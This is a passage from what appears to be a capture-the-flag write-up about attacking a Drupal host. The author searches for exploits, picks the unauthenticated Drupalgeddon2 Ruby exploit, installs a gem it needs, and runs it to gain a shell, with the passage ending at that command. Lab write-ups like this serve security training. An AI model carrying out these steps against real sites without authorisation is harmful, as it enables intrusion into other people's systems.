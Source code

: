 ```bash
Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit)                                                                                                                                          | php/remote/40130.rb
Drupal Module Sections 5.x-1.2/6.x-1.2 - HTML Injection                                                                                                                                                    | php/webapps/33410.txt
Drupal Module Sections - Cross-Site Scripting                                                                                                                                                              | php/webapps/10485.txt
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
## Foothold 
As we can see we have many available exploit, however, the one that looks more dangerous (and does not require authentication) is `Drupalgeddon2`, we have three different version of this exploit available:  
```bash
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution                                                                                                                        | php/webapps/44449.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)                                                                                                                    | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC)                                                                                                                           | php/webapps/44448.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
However, even if we tend to prefer the python versions, this time the ruby exploit seems to include the drupal version we are running (python: `Drupal < 8.3.9 / < 8.4.6 / < 8.5.1` ruby: `Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1`). So now let's mirror the ruby exploit.
As we can notice from a first run, we need to install the following gem to continue:  
```bash
[root@kali exploits ]$ ruby 44449.rb                    
<internal:/usr/lib/ruby/vendor_ruby/rubygems/core_ext/kernel_require.rb>:85:in `require': cannot load such file -- highline/import (LoadError)
        from <internal:/usr/lib/ruby/vendor_ruby/rubygems/core_ext/kernel_require.rb>:85:in `require'
        from 44449.rb:16:in `<main>'
[root@kali exploits ]$ gem install highline                          
Fetching highline-2.0.3.gem
Successfully installed highline-2.0.3
Parsing documentation for highline-2.0.3
Installing ri documentation for highline-2.0.3
Done installing documentation for highline after 2 seconds
1 gem installed
```
Once we have this gem installed we can run the exploit and gain a shell:
```bash
[root@kali exploits ]$ ruby 44449.rb                
```